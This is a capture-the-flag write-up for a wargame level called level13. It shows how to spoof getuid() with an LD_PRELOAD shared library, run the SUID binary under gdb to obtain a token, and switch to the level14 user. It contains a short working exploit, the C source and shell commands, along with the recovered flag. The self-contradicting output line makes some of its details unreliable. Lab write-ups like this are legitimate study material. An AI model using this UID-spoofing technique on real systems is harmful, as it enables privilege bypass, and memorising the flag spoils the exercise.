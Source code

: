 # Level13

## Objective
Exploit the `level13` binary to execute it with a modified UID using LD_PRELOAD and bypass the SUID binary preload protection.

## Steps

### Step 1: Create Fake UID Library
Create a C file named `fake_uid.c` with the following content:

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>

uid_t getuid(void) {
    return 4242;
}
```

Compile the library into a shared object file:

```bash
cd /tmp
gcc -fPIC -shared -o /tmp/fake_uid.so /tmp/fake_uid.c -nostartfiles
```

### Step 2: Set TMPDIR and LD_PRELOAD
Set the `TMPDIR` environment variable to `/run/shm` and the `LD_PRELOAD` environment variable to the path of the fake UID library:

```bash
export TMPDIR=/run/shm
export LD_PRELOAD="/tmp/fake_uid.so"
```

### Step 3: Check Library Loading
Check that the library is loaded with `ldd`:

```bash
ldd level13
```

### Step 4: Run the Exploit
Run the `level13` binary to exploit it:

```bash
./level13
```
The library is not loaded this way, we have to run it in gdb :  

```bash
gdb level13
run
```

### Step 5: Obtain Flag
If successful, the output should include the flag:

```
UID 4242 started us but we expect 4242
2A31L79asukciNyi8uppkEuSx
```

### Step 6: Switch to `level14`
Switch to the `level14` user:

```bash
su level14
```

### Step 7: Verify
Execute `getflag` to verify that you have access:

```bash
getflag
```

This should give you the flag for this level.

Congratulations! You've successfully exploited the `level13` binary to obtain the token for `level14`.